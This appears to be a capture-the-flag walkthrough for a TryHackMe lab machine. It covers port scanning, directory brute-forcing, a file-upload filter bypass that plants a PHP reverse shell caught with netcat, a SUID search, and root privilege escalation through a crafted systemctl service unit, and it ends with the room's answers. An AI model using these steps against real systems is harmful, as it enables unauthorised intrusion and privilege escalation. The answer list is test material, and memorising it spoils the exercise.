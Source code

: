 Hi!

Let's start!

1. To begin with, we must classically connect to a VPN using OpenVPN.
Go to your [profile](https://tryhackme.com/access), download the file to connect, go to "/Downloads" and create the new
terminal:

```$ openvpn <Name>.ovpn ```

2. After that, we open the quest no. 1 and launch the instance (Deploy).

3. After all this, we can slowly start. The first thing we do is scan the machine:

```$ nmap -sC -sV -T4 -A <IpAdress> -oA nmap.nmap```

4. Scanning show us  the [Apache server](https://en.wikipedia.org/wiki/Apache_HTTP_Server) is running on port "3333". So we type in your browser
Address: Ip: 3333 and we look at what's on it.

5. Now, due to the fact that searching manually for paths on the page can be very monotonous and ineffective, we will use [dirb](https://medium.com/tech-zoom/dirb-a-web-content-scanner-bc9cba624c86),
[dirbuster](https://ourcodeworld.com/articles/read/417/how-to-list-directories-and-files-of-a-website-using-dirbuster-in-kali-linux), [wfuzz](https://wfuzz.readthedocs.io/en/latest/user/basicusage.html), [gobuster](https://tools.kali.org/web-applications/gobuster). Depending on what is more convenient for you. I will use a gobuster:

```$ gobuster dir -u http://<ip>:3333/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt```

6. After a while we find the path "/internal", so we check to see what's there. (Ip: 3333 / internal). We can see that on the site
we can send files to the server. The first thing we check is what files can be sent. Mostly cases can be omitted.

7. Since I'm on the "Kali" system, I will use PHP shell. Copy reverse-shell to your working directory:

```$ cp /usr/share/webshells/php/php-reverse-shell.php .```

8. We now need to edit the file to our Ip and Port address. The Ip address is the address that appears after "ifconfig" is entered
next to "tun0" (your ip in VPN). The port set on the "hacker" 4444. ($ ip, $ port). And let's save the file.
(I used the "nano" editor, but you can use the editor that is more convenient for you, e.g. "vi")

9. To intercept reverse shell it would be nice to listen to the port we set up. We will use "NetCat" for this:

```$ nc -nlvp 4444``` (<--port)

10. You can make copies of this file to different ".html" ".php" ".php1" ".php2" ".php5" ".phtml" paths. I checked
trying to upload files manually, but you can use for example "BurpSuite".

11. After checking, the server managed to send the file with the extension ".phtml". So we check where the file was uploaded to
to do this, add "/ uploads" to the path and see reverse file.

12. We click on the file on the server (in the browser) and in the terminal where we started netcat we see the connection and can start issuing commands.

13. Typing for example "id" "whoami" we can see our permissions.

14. At this point, we need to see what we are authorized to do when entering e.g. home:
```
$ cd /home
$ ls
$ cd bill
$ cat user.txt
```

15. The first "flag" for the user was displayed.

16. Now we are looking for SUID binaries. [SUID](https://en.wikipedia.org/wiki/Setuid) stands for the permissions of a given user to certain files:

```$ find / -user root -perm -4000 -print 2>/dev/null```

17. We now see a few files with the SUID flag set.

18. Now we need to make an attack called [Privilege Escalation](https://en.wikipedia.org/wiki/Privilege_escalation) to elevate our system privileges. By scanning
the SUID flag we found a file named [systemctl](https://www.freedesktop.org/software/systemd/man/systemctl.html).

Systemctl is a binary file that controls user interfaces and is responsible e.g. for services run during boot.
By default, systemctl will search files in "/ etc / system / systemd" in order to search and service units.

19. On this machine we cannot create new files in the paths belonging to root, but we can change the [variables environment](https://en.wikipedia.org/wiki/Environment_variable) in an already existing one, so we can do PrivEsc.

20. The first thing we do is create an environment variable:

```$ priv=$(mktemp).service```

Now we need to create a unit file and assign it to an environment variable:
```
$ echo '[Service]
ExecStart=/bin/bash -c "cat /root/root.txt > /opt/flag"
[Install] 
WantedBy=multi-user.target' > $priv
```

( Don't be afraid to use enter until the end of '<- then you can continue typing on a new line. )

21. What we just did is create a service that will execute "Bash", then read the falge from root's root directory and save it to the file / flag in the "/ opt" directory.

22. Now we need to fire the unit file with "systemctl".

```$ /bin/systemctl link $priv

$ /bin/systemctl enable --now $priv
```

23. Now we can see the flag file in the directory "/opt".

```$ cat flag```

24. That's it. We just executed the command for the root user.

// Completing the headings

Task 2.

1) 6

2) 3.5.12

3) 400

4) DNS

5) Ubuntu

6) 3333

Task 3.

1) /internal/

Task 4.

1) .php

2) .phtml

3) bill

4) YOUR USER FLAG 

Task 5.

1) /bin/systemctl

2) YOUR ROOT FLAG 
